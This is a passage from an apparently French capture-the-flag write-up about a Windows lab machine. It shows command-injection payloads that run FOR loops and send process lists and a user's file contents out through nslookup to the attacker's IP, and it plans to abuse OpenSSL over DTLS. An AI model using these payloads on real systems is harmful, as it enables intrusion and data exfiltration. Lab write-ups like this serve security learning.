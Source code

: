 ```plain
10.10.10.106:139
10.10.10.106:80
10.10.10.106:8080
```

Idem pour la liste des process :  

```plain
10.10.15.30 & FOR /F "tokens=1" %Y IN ('tasklist /NH') do nslookup %Y 10.10.15.30
csrss.exe
dwm.exe
lsass.exe
services.exe
smss.exe
svchost.exe
System
vmacthlp.exe
wininit.exe
winlogon.exe
WUDFHost.exe
```

Via le listing des fichiers j'ai remarqué la présence d'un fichier *note-draft.txt* dans le bureau de Alan. Pour extraire son contenu on peut utiliser la commande suivante et incrémenter le numéro de token (pas passionnant j'avoue) :  

```plain
10.10.15.30 & FOR /F "tokens=1" %Y IN (c:\users\alan\desktop\note-draft.txt) do nslookup %Y 10.10.15.30
```

On obtient alors :  

> I've created a Alan shortcut for VS on the Public Desktop to ensure we use the same version Please delete any existing shortcuts and use this one instead

Ça ne fait pas les 160 octets attendus du fichier mais on a la majorité (sans la ponctuation).  

Cette librairie que tout le monde déteste
-----------------------------------------

Durant mon exploration du système j'ai assez rapidement remarqué la présence d'un dossier OpenSSL dans *c:\Program Files (x86)* :  

```plain
10.10.14.151 & dir /B c:\progra~2 | nslookup - 10.10.14.151
OpenSSL-v1.1.0
```

Ce dossier contient un sous-dossier *bin* dans lequel on retrouve l'exécutable *openssl.exe* et ça tombe bien car il semble que l'on soit en mesure de l'exécuter alors que l'accès à de nombreuses commandes plus basiques (net, powershell, etc) soit bloqué.  

Reste à savoir comment faire passer la commande *s\_client* d'OpenSSL sur de l'UDP ! Il n'aura pas fallut longtemps pour trouver des références à [Datagram Transport Layer Security (DTLS)](https://en.wikipedia.org/wiki/Datagram_Transport_Layer_Security).  
